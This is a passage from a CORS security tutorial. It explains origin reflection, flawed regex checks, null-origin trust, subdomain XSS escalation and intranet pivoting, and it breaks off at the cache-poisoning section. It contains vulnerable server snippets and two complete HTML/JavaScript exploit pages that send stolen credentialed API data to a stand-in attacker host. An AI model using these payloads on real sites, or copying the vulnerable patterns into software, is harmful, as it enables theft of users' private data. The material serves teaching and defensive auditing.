

# 03 - CORS Misconfigurations and Attack Vectors

When backend applications dynamically construct or improperly validate CORS HTTP response headers, attackers can bypass Same-Origin Policy (SOP) protections to read confidential API data, exfiltrate sensitive credentials, and execute unauthorized user actions.

> [!CAUTION]
> **Legal Notice:** The code samples, attack payloads, and exploitation techniques documented in this section are provided strictly for educational purposes, authorized security auditing, and defensive vulnerability research. Unauthorized testing against external systems is illegal.

---

## Technical Summary of Exploitable Patterns

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                   CORS VULNERABILITY MECHANISMS AT A GLANCE                 │
├───────────────────────────────┬─────────────────────────────────────────────┤
│ Misconfiguration Pattern      │ Exploitation Technique                      │
├───────────────────────────────┼─────────────────────────────────────────────┤
│ 1. Dynamic Origin Reflection  │ Echoes any incoming `Origin` header alongside│
│                               │ `Access-Control-Allow-Credentials: true`.   │
├───────────────────────────────┼─────────────────────────────────────────────┤
│ 2. Flawed Regex Validation    │ Unanchored regexes allow prefix/suffix      │
│                               │ domain bypasses (e.g., `eviltarget.com`).   │
├───────────────────────────────┼─────────────────────────────────────────────┤
│ 3. Trusting the `null` Origin │ `null` origin forced via sandboxed iframes  │
│                               │ or `data:` URIs to read protected data.     │
├───────────────────────────────┼─────────────────────────────────────────────┤
│ 4. Subdomain XSS Escalation   │ Trusting `*.target.com` allows XSS on a     │
│                               │ staging site to steal production API data.  │
├───────────────────────────────┼─────────────────────────────────────────────┤
│ 5. Intranet / IP Pivoting     │ External site uses wildcards/internal trust │
│                               │ to scan & query corporate internal APIs.    │
├───────────────────────────────┼─────────────────────────────────────────────┤
│ 6. Missing `Vary: Origin`     │ CDN cache poisoning serves malicious CORS   │
│                               │ response headers to legitimate users.       │
└───────────────────────────────┴─────────────────────────────────────────────┘
```

---

## 1. Dynamic Origin Reflection (`ACAO: Origin` + `ACAC: true`)

### Root Cause
Developers often discover that `Access-Control-Allow-Origin: *` cannot be combined with `Access-Control-Allow-Credentials: true`. To bypass this restriction, developers sometimes write custom middleware that reads the incoming `Origin` header from the client request and echoes it back verbatim in `Access-Control-Allow-Origin`.

```python
# VULNERABLE CODE: Python Flask Dynamic Reflection
@app.after_request
def add_cors_headers(response):
    origin = request.headers.get('Origin')
    if origin:
        # Reflecting whatever origin the client sends!
        response.headers['Access-Control-Allow-Origin'] = origin
        response.headers['Access-Control-Allow-Credentials'] = 'true'
    return response
```

### Exploit Mechanics
1. The victim logs into `https://vulnerable-bank.com` and acquires a session cookie.
2. The victim visits the attacker's site (`https://evil-attacker.com`).
3. The attacker's page executes a background `fetch()` to `https://vulnerable-bank.com/api/v1/user/account-info` with `credentials: 'include'`.
4. The backend API reflects `Access-Control-Allow-Origin: https://evil-attacker.com` and sets `Access-Control-Allow-Credentials: true`.
5. The victim's browser permits `evil-attacker.com` to read the sensitive account payload.

### JavaScript Exploit Payload

```html
<!-- Hosted at https://evil-attacker.com/exploit.html -->
<!DOCTYPE html>
<html>
<head><title>Claim Your Reward!</title></head>
<body>
    <h1>Processing Offer...</h1>
    <script>
        const targetUrl = "https://vulnerable-bank.com/api/v1/user/account-info";
        const attackerExfilUrl = "https://evil-attacker.com/log";

        fetch(targetUrl, {
            method: "GET",
            credentials: "include" // Automatically transmits victim session cookies
        })
        .then(response => {
            if (!response.ok) throw new Error("HTTP error " + response.status);
            return response.json();
        })
        .then(data => {
            // Exfiltrate stolen JSON payload to attacker command & control server
            fetch(attackerExfilUrl, {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({
                    victim_data: data,
                    stolen_at: new Date().toISOString()
                })
            });
        })
        .catch(err => console.error("CORS Exploit Failed:", err));
    </script>
</body>
</html>
```

---

## 2. Flawed Regex and String Matching Bypasses

When developers attempt to validate incoming origins using regular expressions or loose string operations, common implementation errors lead to domain bypasses.

### Scenario A: Suffix Bypass (Missing Boundary)
- **Vulnerable Code (JavaScript/Node.js):**
  ```javascript
  // Intended: Allow https://target.com
  if (origin.endsWith("target.com")) {
      res.setHeader('Access-Control-Allow-Origin', origin);
  }
  ```
- **Bypass Payload:** `https://eviltarget.com` or `https://attacker-target.com`
- **Root Cause:** The check matches any domain ending in the string `target.com`. The attacker registers `eviltarget.com`.

### Scenario B: Prefix Bypass (Missing Anchors)
- **Vulnerable Code (Python):**
  ```python
  # Intended: Allow https://target.com
  if origin.startswith("https://target.com"):
      response.headers['Access-Control-Allow-Origin'] = origin
  ```
- **Bypass Payload:** `https://target.com.evil-attacker.com`
- **Root Cause:** The check matches any domain starting with `https://target.com`. The attacker creates a subdomain on their own domain named `target.com.evil-attacker.com`.

### Scenario C: Unescaped Dot Regex
- **Vulnerable Code (Regex):**
  ```python
  # Intended: Allow https://api.target.com
  import re
  if re.match(r"https://api.target.com", origin):
      response.headers['Access-Control-Allow-Origin'] = origin
  ```
- **Bypass Payload:** `https://apix-target.com` or `https://api-target.com`
- **Root Cause:** In regular expressions, an unescaped dot (`.`) matches **any character**. `api.target` matches `apix-target`. The dot must be escaped as `\.`.

### Scenario D: Missing Start/End Anchors (`^` and `$`)
- **Vulnerable Code (Regex):**
  ```python
  if re.search(r"target\.com", origin):
      response.headers['Access-Control-Allow-Origin'] = origin
  ```
- **Bypass Payload:** `https://evil-attacker.com/?leak=target.com` or `https://target.com.attacker.net`

---

## 3. Trusting the `null` Origin

### Root Cause
Browsers set the `Origin` header to the string literal `"null"` in several specific scenarios:
1. Requests originated from local HTML files loaded via the `file://` scheme.
2. Requests initiated from within an `<iframe>` configured with a restrictive `sandbox` attribute (e.g., `<iframe sandbox="allow-scripts">`).
3. Cross-Origin Redirects (when a request undergoes 302 redirects across distinct origins).
4. Requests originated from `data:` or `blob:` URIs.

Developers testing locally often encounter CORS errors with `file://` URLs and add `"null"` to their backend allowlist, or write logic like `if (origin === 'null')`.

```http
# Vulnerable Response Header
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

### Exploit Mechanics
An attacker cannot change their web domain to `"null"`. However, an attacker hosting a page on `https://evil-attacker.com` can create a sandboxed `<iframe>` without the `allow-same-origin` token. This forces the browser to evaluate the iframe's origin as `"null"`.

### Sandboxed iframe Exploit Payload

```html
<!-- Hosted at https://evil-attacker.com/null-exploit.html -->
<!DOCTYPE html>
<html>
<head><title>Null Origin Sandbox Exploit</title></head>
<body>
    <h2>Triggering Null Origin Exploit...</h2>

    <!-- Sandboxed iframe without allow-same-origin forces Origin: null -->
    <iframe sandbox="allow-scripts allow-forms" srcdoc="
        <script>
            const target = 'https://vulnerable-api.com/user/private-keys';
            fetch(target, { method: 'GET', credentials: 'include' })
                .then(r => r.text())
                .then(data => {
                    // Send stolen data to parent page for exfiltration
                    parent.postMessage(data, '*');
                })
                .catch(e => console.error(e));
        </script>
    "></iframe>

    <script>
        window.addEventListener('message', function(event) {
            console.log('Stolen Data via Null Origin:', event.data);
            // Exfiltrate to attacker server
            new Image().src = 'https://evil-attacker.com/log?data=' + encodeURIComponent(event.data);
        });
    </script>
</body>
</html>
```

---

## 4. Subdomain XSS Escalation (`*.domain.com` Trust)

### Root Cause
An enterprise API configures a regex allowlist allowing any subdomain under `*.example.com` (e.g., `https://*.example.com`) to read sensitive credentials from `https://api.example.com`.

### Exploit Mechanics
1. The primary API `api.example.com` enforces secure code practices and has no XSS vulnerabilities.
2. An auxiliary domain or abandoned marketing site `blog-dev.example.com` contains a stored or reflected XSS vulnerability.
3. The attacker injects a malicious XSS payload into `blog-dev.example.com`.
4. When an authenticated employee visits `blog-dev.example.com`, the injected XSS script makes a cross-origin `fetch()` to `api.example.com`.
5. Because `api.example.com` trusts `*.example.com`, the request succeeds and sensitive API data is exfiltrated.

```
┌────────────────────────┐         Stored XSS         ┌────────────────────────┐
│  blog-dev.example.com  │ ─────────────────────────> │   ATTACKER XSS PAYLOAD │
└───────────┬────────────┘                            └───────────┬────────────┘
            │                                                     │
            │ Triggers Cross-Origin Fetch                         │
            ▼                                                     ▼
┌────────────────────────┐    CORS Allowlist Trust    ┌────────────────────────┐
│    api.example.com     │ <───────────────────────── │ Trusted Origin Match!  │
└────────────────────────┘                            └────────────────────────┘
```

---

## 5. Intranet Pivoting & Internal Network Reconnaissance

### Root Cause
Internal enterprise applications (e.g., `http://router.local`, `http://10.0.0.1`, `http://jenkins.corp.internal`) often rely on network-level trust (IP filtering, subnet boundaries) rather than authentication headers.

If an internal web application configures `Access-Control-Allow-Origin: *` or dynamically reflects origins without credentials:

### Exploit Mechanics
1. An employee inside the corporate network opens `https://evil-attacker.com` in their web browser.
2. The attacker's script issues background HTTP requests targeting common private subnets (`http://192.168.1.1`, `http://10.0.0.50:8080/api`).
3. If internal servers return CORS headers, the external site `evil-attacker.com` can read internal corporate data, scan internal network topology, and extract infrastructure details via the employee's browser.

---

## 6. CORS Cache Poisoning via Missing `Vary: Origin`

### Root Cause
A backend server dynamically generates CORS headers based on the incoming `Origin` request header, but forgets to set `Vary: Origin` in the HTTP response. A reverse proxy or Content Delivery Network (CDN) sits in front of the API.

### Exploit Mechanics


